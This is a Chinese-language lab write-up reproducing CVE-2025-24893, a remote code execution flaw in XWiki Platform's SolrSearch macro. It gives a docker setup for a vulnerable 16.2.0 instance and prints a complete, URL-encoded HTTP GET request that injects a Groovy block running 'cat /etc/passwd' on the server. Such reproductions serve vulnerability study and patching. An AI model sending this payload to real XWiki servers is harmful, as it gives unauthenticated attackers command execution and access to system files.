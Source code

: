# XWiki Platform系统远程代码执行漏洞（CVE-2025-24893)

​	XWiki Platform是XWiki开源的一套用于创建Web协作应用程序的Wiki平台。

​	XWiki Platform存在安全漏洞，该漏洞源于任何来宾用户都可以通过对SolrSearch的请求，造成远程代码执行。CVE-2025-24893是针对XWiki平台SolrSearchMacros组件的远程代码执行漏洞（RCE），该漏洞源于对用户输入数据的未充分过滤，攻击者可利用Solr查询参数注入恶意代码，通过服务端模板引擎（如Velocity或Groovy）触发命令执行

项目开源地址：https://github.com/xwiki/xwiki-platform

参考链接：https://jira.xwiki.org/browse/XWIKI-22149

## 环境搭建

执行如下命令启动一个包含漏洞的xwiki-platform  16.2.0 环境：

```
docker compose up -d
```

![image-20250501130618345](./1.png)



## 漏洞复现

确保环境出现以下页面

![image-20250501144259006](./2.png)

发送

```
GET /bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d%20 HTTP/1.1
Host: 192.168.76.129:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36


```

![image-20250501144225499](./3.png)